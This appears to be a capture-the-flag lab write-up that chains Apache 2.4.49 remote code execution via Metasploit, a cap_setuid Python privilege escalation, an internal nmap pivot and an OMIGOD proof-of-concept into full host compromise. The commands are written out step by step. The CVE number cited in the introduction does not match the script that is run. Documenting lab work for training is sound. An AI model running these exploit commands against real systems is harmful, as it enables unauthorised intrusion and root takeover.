










This challenge is great for learning real-world exploitation chaining starting from an outdated web server and escalating into full host compromise, focusing on:

* Service version fingerprinting
* Exploiting Apache 2.4.49 RCE
* Identifying Docker container environments
* Abusing Linux capabilities for privilege escalation
* Pivoting internally and exploiting OMIGOD (CVE-2021-38648)

---

## 🛠 Tools

Structured enumeration and controlled exploitation were required.

```
rustscan        → port discovery  
nmap            → service validation & pivot scanning  
Wappalyzer      → version fingerprinting  
msfconsole      → Apache RCE exploitation  
linpeas         → privilege escalation enumeration  
curl            → file transfer  
python3         → shell stabilization & capability abuse  
static nmap     → internal scanning from container  
```

---

## 📌 Overview

Oh My WebServer simulates a realistic misconfiguration chain where:

* An outdated Apache version is publicly exposed
* The service runs inside a Docker container
* Linux capabilities are misconfigured
* The host exposes a vulnerable OMI service internally

This write-up documents how an initial web entry point evolves into full host compromise through disciplined exploitation chaining.

---

## 🔍 Initial Reconnaissance

Port discovery using Rustscan:

```bash
rustscan -a <target-ip>
```

**Figure 1 – Rustscan Results**



Open ports identified:

* 22 (SSH)
* 80 (HTTP)

---

## 🌐 Web Enumeration

Browsing to port 80 revealed a landing page.

Using Wappalyzer, the Apache version was identified:

Apache 2.4.49

**Figure 2 – Apache Version Detection**



This version is vulnerable to path traversal RCE.

---

## 💥 Apache 2.4.49 Remote Code Execution

Metasploit module search:

```bash
search apache 2.4.49
```

**Figure 3 – Metasploit Module Search**



Exploit configuration and execution:

```bash
set ssl false
set lhost tun0
set rport 80
set rhost <target-ip>
run
```

**Figure 4 – Successful Exploitation**



Shell obtained as:

```
uid=daemon
```

---

## 🧱 Shell Stabilization

To improve shell interaction:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Figure 5 – Stabilized Shell**



---

## 🧠 Container Discovery

Enumeration revealed Docker-style networking and minimal filesystem footprint.

Running linPEAS confirmed containerization.

**Figure 6 – Container Detection**



Container boundaries identified.

---

## ⬆️ Privilege Escalation – Linux Capability Abuse

LinPEAS revealed:

```
/usr/bin/python3.7 = cap_setuid+ep
```

Privilege escalation:

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

**Figure 7 – Container Root Access**



Container root achieved.

User flag retrieved.

**Figure 8 – User Flag**



---

## 🌐 Internal Pivoting

Static nmap transferred and executed inside the container:

```bash
./nmap 172.17.0.1 -p- --min-rate 5000
```

**Figure 9 – Internal Network Scan**



Port 5986 discovered → OMI service.

---

## ⚠️ OMIGOD Exploitation

PoC executed against internal host:

```bash
python3 CVE-2021-38647.py -t 172.17.0.1 -c "cat /root/root.txt"
```

**Figure 10 – Host Root Flag**


Host root successfully compromised.

---

## 🔥 Full Vulnerability Chain

1. Apache 2.4.49 exposed publicly
2. Remote Code Execution achieved
3. Shell as daemon
4. Docker container identified
5. Linux capability abuse → container root
6. Internal network pivot
7. OMIGOD exploitation
8. Host root compromise

---

## 🧠 What This Challenge Teaches

* Version enumeration must guide exploitation
* Containers are not security boundaries
* Linux capabilities can bypass traditional privilege controls
* Post-exploitation requires structured methodology
* Real impact comes from chaining vulnerabilities

This lab strongly reinforces practical exploitation flow aligned with CWES preparation.

---

## 📌 Conclusion

An outdated web service

* container misconfiguration
* exposed internal service

= Full infrastructure compromise.

Initial access is only the beginning.
Real impact comes from intelligent chaining.


# Author:[Mysto](https://www.linkedin.com/in/moussa-mohamed-1a15a536b/)

